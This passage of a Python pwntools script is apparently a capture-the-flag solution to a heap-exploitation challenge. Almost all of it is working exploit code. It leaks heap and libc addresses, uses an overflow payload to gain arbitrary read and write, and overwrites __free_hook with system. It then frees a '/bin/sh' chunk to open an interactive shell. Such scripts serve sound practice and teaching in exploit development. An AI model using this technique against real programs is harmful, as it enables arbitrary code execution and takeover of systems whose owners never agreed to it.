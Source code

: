 ```python
        assert len(desc) == 1
        return u64((desc[0] + "\x00\x00")[:8])

    def pwn(self):
        self.set_author_name("shesl-meow", init=True)
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)

        # todo: get arbitrary address write&read
        self.create(0x20, "D" * 0x20, 0x20, "E" * 0x20)  # 2
        offset = library0 & 0xff
        assert offset >= 0x20
        payload = "C"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(library0 + 0x20 + 0x10) \
                  + p64(library0 + 0x20 + 0x30 + 0x30 + 0x10 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("A" * 32)
        print "get arbitrary address write&read"

        # todo: leak libc address via unsorted bin address
        for i in range(4):
            self.create(0x100, "F" * 0x100, 0x100, "G" * 0x100)  # 3,4,5,6
        for i in range(4):
            self.delete(i + 3)  # 3,4,5,6
        libcbase = self.read_from(library0 + 0x8c0) - 0x1bbca0
        print "libc base address: %x" % libcbase

        # todo:
        #   1. write "/bin/sh" to library[2] name
        #   2. replace `__free_hook` as `system`
        bin_sh_addr = libcbase + next(self.libc.search("/bin/sh"))
        free_hook_addr = libcbase + self.libc.symbols["__free_hook"]
        system_addr = libcbase + self.libc.symbols["system"]
        print "'/bin/sh' address: %x" % bin_sh_addr
        print "_free_hook address: %x" % free_hook_addr
        print "system address: %x" % system_addr
        self.create(0x20, "/bin/sh", 0x20, "/bin/sh")  # 7
        self.write_to(free_hook_addr, p64(system_addr))

        # todo: get shell
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", "7")
        self.p.interactive()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```

